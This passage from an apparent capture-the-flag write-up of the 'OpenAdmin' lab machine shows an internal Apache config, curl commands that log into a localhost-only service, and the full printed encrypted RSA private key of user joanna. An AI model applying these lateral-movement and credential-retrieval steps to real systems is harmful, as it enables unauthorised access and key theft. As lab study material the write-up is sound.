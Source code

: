 And the content of the "internal.conf" one is very usefull:
```
jimmy@openadmin:/var/www/internal$ cat /etc/apache2/sites-enabled/internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Ok, we can curl this URL from the bash (not from our machine.) so let's hack:

First of all, we have to get the PHP SESSION, doing this call:
```
curl -XPOST "127.0.0.1:52846?login=1&username=jimmy&password=Revealed"
```

Now, we can get the RSA Private Key for joanna:
```
jimmy@openadmin:/var/www/internal$ curl -XPOST "127.0.0.1:52846/main.php"
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>

```
